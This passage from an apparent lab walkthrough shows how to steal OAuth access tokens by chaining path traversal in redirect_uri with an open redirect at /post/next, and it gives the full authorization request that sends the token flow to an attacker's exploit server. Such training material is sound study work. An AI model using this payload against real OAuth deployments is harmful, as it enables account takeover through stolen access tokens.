 
We can set the “redirect_uri” to “/post/next”:

```
redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/
```

```
GET /auth?client_id=oy2ed6shddhvjw8klmsnu&redirect_uri=redirect_uri=https://0a5100fc036a387b81e8347900740079.web-security-academy.net/oauth-callback/../post/next?path=https://exploit-0ac500c0030538a5812f33c001d60054.exploit-server.net/&response_type=token&nonce=1218229424&scope=openid%20profile%20email HTTP/2
``` 



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/10.png)


The previous payload redirects to the exploit server:



![img](images/Stealing%20OAuth%20access%20tokens%20via%20an%20open%20redirect/11.png)
